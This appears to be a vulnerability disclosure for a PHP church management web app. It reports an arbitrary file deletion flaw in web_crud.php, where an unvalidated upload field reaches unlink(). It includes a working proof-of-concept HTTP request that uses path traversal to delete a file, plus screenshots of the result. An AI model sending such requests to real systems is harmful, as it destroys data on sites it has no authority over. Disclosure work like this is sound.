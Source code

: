 ### Vulnerability file address

In line 469 of `church/admin/app/web_crud.php`, `@unlink("../../assets/images/" . $_POST['old_category_img']);`,` $_POST['old_category_img']` parameters have not been restricted, which causes any file to be deleted

```php
if ($_FILES['categoryphoto']['tmp_name'] != '') {
            $filepath = "../../assets/images/" . generateUniqueFileName($_FILES["categoryphoto"]["name"]);

            if (move_uploaded_file($_FILES["categoryphoto"]["tmp_name"], $filepath)) {
                $img10 = basename($filepath);
                @unlink("../../assets/images/" . $_POST['old_category_img']);
            }
        }
```

### POC

```http
POST /church/admin/app/web_crud.php HTTP/1.1
Host: www.church.net
Connection: close
Cookie: PHPSESSID=hl5noegsdjn1ru7skoi8tmqco3
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryTZGvWJmfBtMK9O8p
Content-Length: 383

------WebKitFormBoundaryTZGvWJmfBtMK9O8p
Content-Disposition: form-data; name="update6"

1
------WebKitFormBoundaryTZGvWJmfBtMK9O8p
Content-Disposition: form-data; name="old_category_img"

../../21.txt
------WebKitFormBoundaryTZGvWJmfBtMK9O8p
Content-Disposition: form-data; name="categoryphoto";filename="aaa.php"

this is test
------WebKitFormBoundaryTZGvWJmfBtMK9O8p--
```

### Attack results pictures

First, we create a `21.txt` file in the `church/` directory

![image-20250505170302418](https://raw.githubusercontent.com/Amyppp/imgs/main/vuln/202505051703459.png)



Then we execute the above poc to attack

![image-20250505170319847](https://raw.githubusercontent.com/Amyppp/imgs/main/vuln/202505051703876.png)



Files are deleted after the attack is successful

![image-20250505170331320](https://raw.githubusercontent.com/Amyppp/imgs/main/vuln/202505051703352.png)